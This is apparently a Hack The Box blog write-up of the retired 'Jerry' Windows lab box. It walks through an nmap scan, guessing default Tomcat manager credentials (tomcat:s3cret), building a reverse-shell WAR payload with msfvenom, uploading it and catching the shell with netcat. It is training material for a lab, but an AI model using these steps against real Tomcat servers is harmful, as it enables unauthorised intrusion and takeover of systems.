 ```yaml
---
layout: post
title: Hack The Box - Jerry
categories: hack-the-box
image: hackthebox/jerry/0.png
redirect_from: "/HackTheBox-Jerry/"
---
```


<hr>
#### Jerry has retired and this is my write-up about it...
<br>
#### Jerry was one of the easiest boxes on HTB. It was a beginner-box . 
#### It's a windows box and its ip is 10.10.10.95
![](/images/hackthebox/jerry/0.png)
<hr>
<br>
#### Starting with nmap to scan for tcp ports and services :
`nmap -sV -sT 10.10.10.95`
![](/images/hackthebox/jerry/1.jpg)
<hr>
<br>
#### We can see that the port 8080 is open and running http and the server is Apache Tomcat.
#### By visiting it in the browser we get the default tomcat configuration page.
![](/images/hackthebox/jerry/2.png)
<hr>
<br>
#### There's a manager app so let's try to access it .
![](/images/hackthebox/jerry/3.png)
<hr>
<br>
#### It asks for authentication and common passwords like those mentioned below didn't work:
*tomcat:tomcat* <br>
*admin:admin* <br>
*admin:password* <br>
*user:password* <br>
#### So by closing the login panel it causes an error because we are not authorized to view the manager page
#### But by looking at the error page :
![](/images/hackthebox/jerry/4.png)
<hr>
<br>
#### It shows these credentials :
*tomcat:s3cret*
#### This seems to be a part of the documentation and those credentials are dafault credentials.
#### Will they work ? yup !
![](/images/hackthebox/jerry/5.png)
![](/images/hackthebox/jerry/6.png)
<hr>
<br>
## Exploitation
#### Now we are logged in to the manager app and we can get a shell from here
<br>
#### We are on an apache tomcat server and apache tomcat uses WAR files.
#### To get a reverse shell we will use msfvenom to create the payload :
<br>
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4449 -f war > backdoor.war`
![](/images/hackthebox/jerry/7.jpg)
<br>
#### Then we will upload our payload to the server.
![](/images/hackthebox/jerry/8.jpg)
![](/images/hackthebox/jerry/9.jpg)
<br>
#### Then we will listen to the port with netcat :
<br>
`nc -lvnp 4449`
<hr>
<br>
#### Now we got a reverse shell as admin so there's no need for previlege escalation.

![](/images/hackthebox/jerry/10.jpg)
<br>
<br>
![](/images/hackthebox/jerry/11.jpg)
<br>
<br>
![](/images/hackthebox/jerry/12.jpg)
<br>
<hr>
#### Another way to do this is to use this tool written by **mgeeky** [TomcatWarDeployer](https://github.com/mgeeky/tomcatWarDeployer) to automate the process of getting a shell
![](/images/hackthebox/jerry/13.jpg)
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Next Hack The Box write-up : [Hack The Box - Hawk](/hack-the-box/hawk/)
<hr>
